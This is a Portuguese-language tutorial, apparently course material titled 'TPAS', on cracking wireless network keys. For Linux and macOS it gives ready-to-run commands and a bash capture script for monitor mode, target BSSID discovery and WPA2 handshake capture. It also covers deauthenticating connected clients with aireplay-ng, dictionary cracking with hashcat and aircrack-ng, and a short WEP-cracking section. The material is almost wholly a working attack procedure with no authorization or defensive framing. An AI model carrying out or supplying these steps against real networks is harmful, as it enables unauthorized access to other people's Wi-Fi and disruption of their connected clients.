 # TPAS - Wireless Cracking Tutorial

Instalar o `aircrack-ng` suite e `hashcat`

Linux (Debian/Ubuntu): `apt install aircrack-ng hashcat`

OSX: `brew install aircrack-ng hashcat`

`hashcat-utils:` [https://github.com/hashcat/hashcat-utils](https://github.com/hashcat/hashcat-utils)

## WPA2 Cracking

### Linux

- Obter wordlist (e.g. https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Common-Credentials/10-million-password-list-top-10000.txt)
- Colocar interface em monitor mode: `airmon-ng start wlan0`
- Obter o BSSID e channel da rede alvo com `airodump-ng mon0`
- Utilizar o seguinte comando para capturar um 4-way Handshake (alterar channel e BSSID): `airodump-ng -c 1 — bssid xx:xx:xx:xx:xx:xx -w capture.cap mon0`
- Enquanto esperamos pelo handshake podemos usar o aireplay para forçar que os clientes se voltem a ligar ao AP (deauth) com o comando: `aireplay-ng -0 2 -a xx:xx:xx:xx:xx:xx mon0`
- Esperar pelo WPA handshake
- `cap2hccapx capture.cap capture.hccapx`
- `hashcat -m 2500 capture.hccapx wordlist.txt`

Também é possível fazer cracking ao handshake através do `aircrack-ng` (mais lento):

- `aircrack-ng -w wordlist.txt capture.cap`

### OSX

`ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/local/bin/airport`

- Obter wordlist (e.g. https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Common-Credentials/10-million-password-list-top-10000.txt)
- Obter o BSSID e channel da rede alvo com `sudo airport -s`
- Utilizar o seguinte script para capturar um 4-way Handshake (alterar channel e BSSID):
```bash
export BSSID=xx:xx:xx:xx:xx:xx
export CHANNEL=1
sudo airport -z
sudo airport -c$CHANNEL
sudo tcpdump "type mgt subtype beacon and ether src $BSSID" -I -c 6 -i en0 -w beacon.cap
echo "Waiting for handshake... CTRL-C when frames > 4"
sudo tcpdump "ether proto 0x888e and ether host $BSSID" -I -U -vvv -i en0 -w handshake.cap
echo "Done"
mergecap -a -F pcap -w capture.cap beacon.cap handshake.cap
cap2hccapx capture.cap capture.hccapx
```
- Enquanto esperamos pelo handshake podemos usar o aireplay para forçar que os clientes se voltem a ligar ao AP (deauth) com a ferramenta https://github.com/0x0XDev/JamWiFi
- `hashcat -m 2500 capture.hccapx wordlist.txt` 

## WEP Cracking

- Colocar a interface em monitor mode
- Utilizar o `airodump-ng` ou Wireshark para capturar pacotes
- Utilizar o `aircrack-ng` para crackar a chave `aircrack-ng -1 -a 1 -b xx:xx:xx:xx:xx:xx capture.cap`


